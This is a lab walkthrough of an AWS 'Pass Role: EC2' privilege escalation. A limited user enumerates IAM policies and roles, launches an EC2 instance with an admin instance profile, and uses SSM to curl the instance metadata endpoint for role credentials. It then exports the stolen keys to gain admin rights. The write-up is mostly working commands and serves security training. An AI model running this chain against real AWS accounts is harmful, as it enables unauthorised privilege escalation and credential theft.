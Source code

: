 ### Pass Role : EC2

Configure the profile with the credentials provided. Then, list the policies attached to the user. Also, list inline policies attached to the user.

```
aws iam list-attached-user-policies --user-name student --profile PTAcademyJllerena
aws iam list-user-policies --user-name student --profile PTAcademyJllerena

```

![image](https://user-images.githubusercontent.com/46797181/222875109-e7bdae68-e3f5-4287-aeb7-507b8bc83216.png)


Attempt to create a user on the AWS account. `aws iam create-user --user-name jllerena --profile PTAcademyJllerena` A denied message is received 
![image](https://user-images.githubusercontent.com/46797181/222875129-893f9c02-3e0e-4f23-8ae6-b10c9f482c7e.png)

Check the policy permissions and details. `aws iam get-user-policy --user-name student --policy-name ConfigureEC2Role --profile PTAcademyJllerena` 
![image](https://user-images.githubusercontent.com/46797181/222875168-43144363-8658-4f2a-80c7-4bd2e3fd6484.png)

The student user can run EC2 instances and pass a role to the EC2 instance. Since the student user also has permission to interact with the SSM service, the student user can execute commands on the EC2 instances via SSM. List role on AWS account which can be passed to EC2 service. `aws iam list-roles --profile PTAcademyJllerena` 

![image](https://user-images.githubusercontent.com/46797181/222875518-d3d8cd2b-989d-4717-8ad9-9d44a9b4531c.png)

Check ec2admin role policies and permissions. `aws iam list-role-policies --role-name ec2admin --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222875564-89c4e963-4626-46d8-b02a-b2d279a2c073.png)

Check policy permissions. `aws iam get-role-policy --role-name ec2admin --policy-name terraform-20230304040647411800000003 --profile PTAcademyJllerena` 
![image](https://user-images.githubusercontent.com/46797181/222875825-abad55e4-4966-4574-918e-90584843e934.png)

Find AMI id for Amazon Linux 2 AMI. `aws ec2 describe-images --owners amazon --filters 'Name=name,Values=amzn-ami-hvm-*-x86_64-gp2' 'Name=state,Values=available' --output json --profile PTAcademyJllerena | jq -r '.Images | sort_by(.CreationDate) | last(.[]).ImageId'`

The value obtained is `ami-07bf5557ac8caacca`
![image](https://user-images.githubusercontent.com/46797181/222876826-128122a8-3573-40ee-be28-0ba117df9acc.png)

Check the subnets available in the AWS account `aws ec2 describe-subnets --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222877273-1e36b971-e35a-43c2-8a7f-01c189a9be89.png)

Take note of subnet id `subnet-0c344c41445db179a` 

Describe security groups `aws ec2 describe-security-groups --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222877654-4470573b-8865-42ed-badb-0189e7af4922.png)

Take note of the security group ID `sg-085ec1c95a24f2950` 

List instance profiles for the AWS account. `aws iam list-instance-profiles --profile PTAcademyJllerena` 
![image](https://user-images.githubusercontent.com/46797181/222877770-11f75618-fae1-401e-a9b7-c33410cb64e2.png)

Take note of instance profile name `ec2_admin`

Start an ec2 instance using collected details. `aws ec2 run-instances --subnet-id subnet-0c344c41445db179a --image-id ami-07bf5557ac8caacca --iam-instance-profile Name=ec2_admin --instance-type t2.micro --security-group-ids "sg-085ec1c95a24f2950" --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222877971-1bafeef4-d464-4bdb-899c-69be1178e1db.png)

Run commands on the remote ec2 instance using SSM. `aws ssm send-command --document-name "AWS-RunShellScript" --parameters 'commands=["curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2admin/"]' --targets "Key=instanceids,Values=i-0a4021bfebd564014" --comment "aws cli 1 --profile PTAcademyJllerena"`

 ![image](https://user-images.githubusercontent.com/46797181/222878360-d734c9b0-9547-4602-99ee-685d627e65d3.png)
 
Get the command’s output using SSM. `aws ssm get-command-invocation --command-id "2caa2511-3e5b-4717-bb8e-5502ca79b548" --instance-id "i-0a4021bfebd564014" --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222878455-d79536e6-238b-4cd1-971e-2548882f9e43.png)

Take note of the access keys and configure the env variables 

```
export AWS_ACCESS_KEY_ID=<access key id>
export AWS_SECRET_ACCESS_KEY=<secret access key>
export AWS_SESSION_TOKEN=<session token>

```

Check caller identity to confirm whether assuming role was successful. `aws sts get-caller-identity`
![image](https://user-images.githubusercontent.com/46797181/222878679-c097f7ef-23ce-4e30-b9e7-237ff23e40a9.png)

Try creating a new user on the AWS account to verify Administrative privileges
![image](https://user-images.githubusercontent.com/46797181/222878713-1f698443-99cd-4940-8c3d-26b829549759.png)













